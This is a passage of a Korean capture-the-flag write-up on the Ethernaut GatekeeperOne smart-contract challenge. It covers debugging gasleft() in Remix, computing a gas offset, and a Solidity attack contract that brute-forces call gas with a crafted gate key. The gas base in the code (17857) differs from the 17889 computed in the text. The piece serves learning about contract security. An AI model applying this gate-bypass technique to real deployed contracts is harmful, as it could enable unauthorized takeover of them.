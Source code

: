 공격 진행 후 문제 인스턴스의 entrant를 보면 나의 메타마스크 지갑 주소로 변경된 것을 확인할 수 있다.

문제의 목적을 달성하였으므로 제출하면 성공의 표시가 뜬다.

# 문제 후기

가스비를 절약하기 위해서는 정확한 가스 값으로 적은 횟수로 공격을 성공시키는게 가장 바람직하다. 실제로도 반복문을 너무 많이 돌리게 되면 가스 리밋에 걸려서 제대로 안될수도 있고.. 그런데 디버그를 하면서 gasleft의 정확한 값을 찾으려고 많은 노력을 해보기도 했지만 결국 실패했다.

![gateKeeperOne 배포.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c6a01415-0689-44e9-95f5-56b2d3b3d7c8/gateKeeperOne_%EB%B0%B0%ED%8F%AC.png)

gateKeeperOne을 배포하는 장면이다. 이 인스턴스를 배포하는 이유는 Ethernaut의 문제 인스턴스로 보내면 내 리믹스에서 디버그가 불가능하므로 내 리믹스에서도 gateKeeperOne을 배포하여 디버그를 하기 위함이다.

```solidity
// 내 리믹스에서 배포한 gateKeeperOne 컨트랙트 주소
0x620A94623aBFF09cF47Acb16e48C7adc21C49D55
```

![가스값 알기 위한 공격.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cd2f37d5-2af4-497c-926b-beaad5a0ac74/%EA%B0%80%EC%8A%A4%EA%B0%92_%EC%95%8C%EA%B8%B0_%EC%9C%84%ED%95%9C_%EA%B3%B5%EA%B2%A9.png)

![디버깅.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0ca02840-28d0-454b-aeb6-834fac490eeb/%EB%94%94%EB%B2%84%EA%B9%85.png)

Attack을 해주고 나면 Debug를 할 수 있다. Debug를 해주자.

![디버그.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ab5ecb98-7432-4f96-80a3-f336e8083fd1/%EB%94%94%EB%B2%84%EA%B7%B8.png)

그리고 나면 디버그 창이 뜨는데 이 창에서 코드 중 gasleft()에 도달할 때까지 다음을 눌러서 opcode중 GAS에 맞춰서 이동하고자 했다. 하지만 잘 안움직이고 call에서 넘어가질 않길래 막대를 강제로 움직여서 gasleft로 옮겼다..

![opcode.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f2d376a8-be34-44a3-ab7c-7a207860439c/opcode.png)

![가스.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2dca25a5-6605-4a42-b737-939cf93105d1/%EA%B0%80%EC%8A%A4.png)

gas(gasleft함수의 opcode)가 실행되기 직전(아직 실행안됨) remaining gas가 302임을 확인할 수 있다. step into로 GAS opcode를 실행시키자.

![opcode2.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad2e3d51-37aa-45b9-90ff-097155ded13a/opcode2.png)

gas가 실행되고 나면 remaining gas가 300이 된다. 

![스택.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/17349eff-4a93-4c62-abe3-f0cfba8f4f26/%EC%8A%A4%ED%83%9D.png)

GAS(gasleft()) opcode로 인해 스택에 새로 들어간 값을 보면 0x12c인데 이는 300이다. 즉 gasleft()는 300의 값임을 확인할 수 있다. 10000-300 = 9700만큼의 gas가 소모되는 것을 확인했으므로 8191 +9700 = 17889으로 가스를 조정해주자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract gateOneAttack{
    address gate ;
    bytes8 gateKey = 0x111100000000A39A;

    constructor(address _addr) public {
        gate=_addr;
    }

    function Attack() public{        
			
         for (uint i = 0; i < 64; i++) {
						
            address(gate).call.gas(17857+i)(abi.encodeWithSignature("enter(bytes8)", gateKey));
        }

    }
```